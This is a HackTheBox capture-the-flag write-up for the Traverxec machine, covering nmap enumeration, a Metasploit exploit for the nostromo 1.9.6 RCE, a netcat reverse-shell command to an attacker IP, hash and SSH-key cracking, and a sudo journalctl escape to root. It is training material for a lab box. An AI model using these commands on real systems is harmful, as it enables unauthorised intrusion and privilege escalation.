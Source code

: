 ```yaml
---
title: "HackTheBox - Traverxec"
author: Nasrallah
description: ""
date: 2022-09-09 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, stty, cve, rce, crack, john, hashcat]
img_path: /assets/img/hackthebox/machines/traverxec
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Traverxec](https://app.hackthebox.com/machines/Traverxec) from [HackTheBox](https://www.hackthebox.com). The box is running a webserver vulnerable to rce allowing to get a reverse shell on the machine. We enumerate the machine and find ssh private key of user `david`. After that we exploit a sudo entry to get root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.165
Host is up (0.11s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-title: TRAVERXEC
|_http-server-header: nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 2 open ports, 22 running ssh and 80 running nostromo version 1.9.6.

Let's search for exploits in this version.

```terminal
$ searchsploit nostromo                              
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (Metasploit)                                                       | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                                                                                     | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution                                                       | linux/remote/35466.sh
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

This version is vulnerable to rce and there is a module available on metasploit.

# **Foothold**

Let's fire up metasploit and use the following module : `use exploit/multi/http/nostromo_code_exec`.

![](1.png)

After setting the required option, run the exploit by entering `exploit`.

![](2.png)

We got code execution on the target as www-data.

To get a fully functional shell, setup a listener with `nc -lvnp 1234` and run the following command on the target `nc -e /bin/bash {attacker IP} 1234`

![](3.png)

Got a shell and stabilized it with python pty. 

## **Privilege Escalation**

Going to nostromo's config directory, we find an interesting file.

![](4.png)

Got the hash for user `david`. Let's copy it to our machine and crack it using `hashcat`.

```bash
$ hashcat -m 500 hash.txt ./pass.lst --username --force
```

![](5.png)

Nice, let's switch to user david.

Oops, the password isn't working. After some more enumeration, we find this.

![](6.png)

The configuration file shows that the server admin of nostromo is `david`, we see the location of some files and directories and on interesting directory called **public_www** located in the home directory of a user. Since the admin of the server is david, let's check if this directory is in his home directory.

![](7.png)

We find a backup containing some ssh files. Let's extract the file and see what is holds.

![](8.png)

We managed to find a ssh private key. Let's Copy that to our machine and connect with it.

![](9.png)

After putting the key in a file, we gave the file 600 permission so that we can use it, but it turns out it's protected with a password. Using `ssh2john` we got the hash of that password and managed to crack it using `john`. We managed to log in successfully after that.

In david's home folder we find a **bin** directory with an interesting shell script.

![](10.png)

The script contains the following command:

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

We can run the above command as root. Looking up `journalctl` on [GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/#sudo) we find the command we run to get root.

```terminal
sudo journalctl !/bin/sh
```

The way `journalctl` works is it sends the output to stdout if it can fit into the current page, if not, it sends to less. But with the command above, it's running with `-n 5` so that only 5 lines would come out.

We can either shrink our terminal window to smaller that 5 lines or change the terminal line settings with `stty`. We run the following command to display 3 lines.

```bash
stty rows 3
```

With that, we forced `journalctl` to use `less` which allows us to run `!/bin/bash` to escape it and become root.

![](11.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).